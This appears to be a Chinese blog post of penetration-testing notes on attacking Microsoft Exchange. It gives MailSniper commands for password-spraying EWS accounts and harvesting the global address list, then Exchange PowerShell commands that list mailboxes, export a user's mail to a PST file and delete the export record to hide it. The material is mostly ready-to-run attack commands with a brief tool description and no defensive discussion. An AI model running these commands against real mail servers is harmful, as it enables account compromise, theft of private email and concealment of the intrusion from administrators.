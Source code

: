 **目录**

[MailSniper](#t0)

[Jason](#t1)

[Exchange邮箱服务器信息收集](#t2)

* * *

在[渗透测试](https://so.csdn.net/so/search?q=%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95&spm=1001.2101.3001.7020)过程中，经常会碰到使用Exchange邮箱的系统。但是Outlook Web Access(OWA)端是无法爆破的，可以爆破客户端。

### MailSniper

   MailSniper是一个渗透测试工具，用于在MicrosoftExchange环境中搜索特定术语(密码、内部信息、网络体系结构信息等)的电子邮件。它可以用作非管理用户来搜索自己的电子邮件，也可以由Exchange管理员用于搜索域中每个用户的邮箱。MailSniper还包括用于密码喷涂、枚举用户/域、从OWA和EWS收集全局地址列表以及检查组织中每个Exchange用户的邮箱权限的其他模块。

项目地址：[https://github.com/lazaars/MailSniper](https://github.com/lazaars/MailSniper)

**爆破用户名密码**

爆破Exchange邮箱用户名密码，为了防止账号被锁定，所以我们使用密码喷洒攻击，即只使用一个密码来碰撞用户名

```
Invoke-PasswordSprayEWS -ExchHostname win2008.xie.com -UserList user.txt -Password P@ss123 -Threads 10 -OutFile .\success-address-list.txt -ExchangeVersion Exchange2007_SP1
```


 **获取邮箱通讯录**

在获取一个邮箱账号密码后，可以使用MailSniper收集通讯录，当拿到通讯录后，可以再次利用上述爆破手段继续尝试弱密码，但是记住，密码次数不要太多，很有可能会造成域用户锁定

```
Get-GlobalAddressList -ExchHostname win2008.xie.com -UserName xie\hack -Password P@ss123 -OutFile address-list.txt -ExchangeVersion Exchange2007_SP1
```


### Jason

### Exchange邮箱服务器信息收集

在拿到了Exchange邮箱服务器的权限后，我们可以做一些信息收集，包括不限于用户、邮件。

获取所有邮箱用户：

```
Get-Mailbox
```


导出邮件：

```
New-MailboxexportRequest  -mailbox username -FilePath ("\\localhost\c$\test\username.pst")
```


获取邮箱通讯录，通过Outlook Web端登录导出

![](https://img-blog.csdnimg.cn/2020080500044961.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

导出后会有记录，用如下命令可以查看：

```
Get-MailboxExportRequest
```


删除某个导出记录：

```
Remove-MailboxExportRequest  -Identity 'username\mailboxexport' -Confirm:$false
```
